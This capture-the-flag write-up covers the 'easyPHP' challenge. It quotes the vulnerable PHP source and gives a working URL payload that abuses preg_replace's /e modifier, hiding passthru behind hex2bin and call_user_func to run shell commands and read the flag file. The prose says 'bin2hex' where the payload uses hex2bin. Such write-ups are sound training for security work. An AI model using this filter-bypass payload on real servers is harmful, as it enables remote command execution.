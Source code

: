 # easyPHP

to get flag:
http://easy-php.darkarmy.xyz/?bruh=call_user_func(hex2bin(%277061737374687275%27),%27cat%20flag210d9f88fd1db71b947fbdce22871b57.php%27)&nic3=/!!/e

#

- use gobuster to find robots.txt

- see "?lmao" is disallowed

- add ?lmao=something query string

- see code for page.
```
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```
- see that preg_replace finds instances of whatever is in the ?nic3 query parameter, replaces the text (default "Welcome DarkCON CTF !!"), with
  whatever is in the ?bruh query parameter

- do some searching on preg_replace function and see that adding /e to the regex (in ?nic3) will eval the replacement (in ?bruh)
- try putting stuff like system(), passthru(), exec() in ?bruh, and it dies with the message "Amazing Goob JOb You :) " because they are blacklisted in is_payload_danger
    - notice that is_payload_danger is probably just doing a regex on a bunch of function name that allow system commands

- while looking at documentation for eval(), notice that call_user_func exists which allows you to pass the name of a function and arguments to call it with
    - trying this with an arg like 'passthru' still gets blocked by _is_payload_danger

- hex encode 'passhtru' to 7061737374687275 and call bin2hex() in first argument of call_user_func to get it back to a normal string, then can put 'ls' in second
  argument to see contents of directory

- see a file called flag210d9f88fd1db71b947fbdce22871b57.php in the output, do the same thing as above but instead of passing 'ls' pass 'cat flag210d9f88fd1db71b947fbdce22871b57.php'
  to see contents of file

- get flag darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}